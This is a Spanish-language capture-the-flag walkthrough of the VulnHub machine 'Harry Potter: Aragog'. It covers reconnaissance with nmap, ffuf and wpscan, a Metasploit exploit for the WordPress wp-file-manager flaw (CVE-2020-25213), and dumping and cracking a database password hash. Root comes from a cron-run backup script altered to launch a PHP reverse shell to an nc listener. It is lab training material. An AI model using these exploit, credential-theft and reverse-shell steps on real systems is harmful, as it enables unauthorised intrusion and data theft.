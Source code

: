 <h1 align="center">
<br>
  <img src="https://www.hp-lexicon.org/wp-content/uploads/2016/06/goodbye-friends-of-hagrid.jpg" alt="Front-End Checklist" width="300">
  <br>
  Harry Potter: Aragog
  <br>
</h1>

<h4 align="center">Maquina creada por <img src="https://img.icons8.com/android/344/twitter.png" alt="Front-End Checklist" width="12">@time4ster</h4>
<h4 align="center">Aquí puedes descargarte la <a href="https://www.vulnhub.com/entry/harrypotter-aragog-102,688/">página web</a> y ver una descripción de ella</h4>

---

# Índice

- [Recopilación de información](#recopilación-de-información)
  - [Nmap](#nmap)
  - [Fuzz](#fuzz)
- [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades)
  - [Wordpress](#wordpress)
- [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades)
  - [Metasploit](#metasploit)
- [Post-explotación](#post-explotación)
  - [Movimiento Lateral](#movimiento-lateral)
    - [Mysql](#mysql)
  - [Búsqueda de vulnerabilidades](#búsqueda-de-vulnerabilidades-1)
  - [Explotación de vulnerabilidades](#explotación-de-vulnerabilidades-1)
       - [Reverse Shell](#reverse-shell)
- [Información Adicional](#información-adicional)


---

## Recopilación de información

Aquí veremos que esta conectado a la subred, los puerto abiertos, las paginas web, etc.

### Nmap

Veremos que redes estan conectadas a esta subred con este comando:

```nmap -sP 192.168.221.0/24```

Para ver los puertos abiertos que tiene la red utilizaremos este comando:

```nmap -sV -sC 192.168.221.7```

### Fuzz

Fuzzearemos la web para ver quw tiene:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.7/FUZZ```

Despues fuzzearemos el **/blog/**:

```ffuf -c -w /opt/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://192.168.221.7/blog/FUZZ```

## Búsqueda de vulnerabilidades

### Wordpress

Al ver que es un **wordpress** usaremos el **wpscan**:

```wpscan --url http://192.168.221.7/blog/ --plugins-detection aggressive```

Esto es lo que recibimos con el wpscan:
```
        wp-file-manager
         | Location: http://192.168.221.7/blog/wp-content/plugins/wp-file-manager/
         | Last Updated: 2021-03-30T06:37:00.000Z
         | Readme: http://192.168.221.7/blog/wp-content/plugins/wp-file-manager/readme.txt
         | [!] The version is out of date, the latest version is 7.1.1
```

## Explotación de vulnerabilidades

A la hora de explotar esta vulnerabilidad he encontrado este [exploit](https://www.exploit-db.com/exploits/49178) que utilizaremos para ver que CVE podemos buscar en el metasploit.

### Metasploit

Ahora en metasploit configuraremos esto para explotar esa vulnerabilidad:
```
        search CVE-2020-25213
        use 0
        set rhosts 192.168.221.7
        set lhost 192.168.221.4
        set targeturi /blog
        exploit
```

Con esto hemos conseguido ser el usuario **www-data**

## Post-explotación

## Movimiento Lateral

Desde donde estamos podemos conseguir la primera flag del usuario **hagrid98**

Aquí la primera flag: **horcrux_{MTogUmlkRGxFJ3MgRGlBcnkgZEVzdHJvWWVkIEJ5IGhhUnJ5IGluIGNoYU1iRXIgb2YgU2VDcmV0cw==}**

Ahora buscando encontraremos esta ruta que tiene buena pinta: ```/etc/wordpress```

El contendio del archivo **config-default.php** es este:

 ```
        <?php
        define('DB_NAME', 'wordpress');
        define('DB_USER', 'root');
        define('DB_PASSWORD', 'mySecr3tPass');
        define('DB_HOST', 'localhost');
        define('DB_COLLATE', 'utf8_general_ci');
        define('WP_CONTENT_DIR', '/usr/share/wordpress/wp-content');
        ?>
 ```
 
 Como podemos ver hay unas credenciales de una base de datos.

### Mysql

Como estamos en un sessión en meterpreter utilizaremos estos siguientes comandos para leer los datos de la base de datos:

```
        shell
        mysql -u root -p
        mySecr3tPass
        use wordpress;
        select*from wp_users;
 ```
 
 El resultado de la tabla **wp_users** es este:
 
 ```
                1       hagrid98        $P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc.      wp-admin        hagrid98@localhost.local                2021-03-31 14:21:02             0       WP-Admin
```

Con el hash que hemos conseguido lo creckearemos con el john:

```john --wordlist=/opt/wordlists/rockyou.txt hash```

El resultado:

```
password123      (?)
```

Ahora nos conectaremos por ssh al usuario y ya seremos **hagrid98**

## Búsqueda de vulnerabilidades

Ahora comenzaremos a enumerar todo lo possible hasta encontrar en la carpeta **/opt** con el comando ```ls -a``` un archivo llamado **.backup.sh** que contiene esto:

```
#!/bin/bash

cp -r /usr/share/wordpress/wp-content/uploads/ /tmp/tmp_wp_uploads
```

## Explotación de vulnerabilidades

Para explotar esta vulnerabilidad nos crearemos una reverse shell y haremos que el script ejecute esa shell.

### Reverse Shell

Crearemos una [reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) y la modificaremos la dirección ip y el puerto, añadiendo poniendo el puerto en escucha en otra terminal con este comando: ```rlwrap nc -nvlp 1234```

Añadiremos al script esta línea para que ejecute la reverse shell:
```php /tmp/php-reverse-shell.php```

Gracias a esto somos **root** y podemos leer la segunda flag:

```
  ____                            _         _       _   _
 / ___|___  _ __   __ _ _ __ __ _| |_ _   _| | __ _| |_(_) ___  _ __  ___
| |   / _ \| '_ \ / _` | '__/ _` | __| | | | |/ _` | __| |/ _ \| '_ \/ __|
| |__| (_) | | | | (_| | | | (_| | |_| |_| | | (_| | |_| | (_) | | | \__ \
 \____\___/|_| |_|\__, |_|  \__,_|\__|\__,_|_|\__,_|\__|_|\___/|_| |_|___/
                  |___/


Machine Author: Mansoor R (@time4ster)
Machine Difficulty: Easy
Machine Name: Aragog
Horcruxes Hidden in this VM: 2 horcruxes

You have successfully pwned Aragog machine.
Here is your second hocrux: horcrux_{MjogbWFSdm9MbyBHYVVudCdzIHJpTmcgZGVTdHJPeWVkIGJZIERVbWJsZWRPcmU=}




 #For any queries/suggestions feel free to ping me at email: time4ster@protonmail.com
```

## Información Adicional

Páginas web utilizadas:

- [WordPress CVE-2020-25213](https://www.exploit-db.com/exploits/49178) - Exploit para saber que CVE podemos buscar

- [PHP Reverse Shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) - Reverse Shell PHP


**[⬆ back to top](#-----harry-potter-aragog-)**
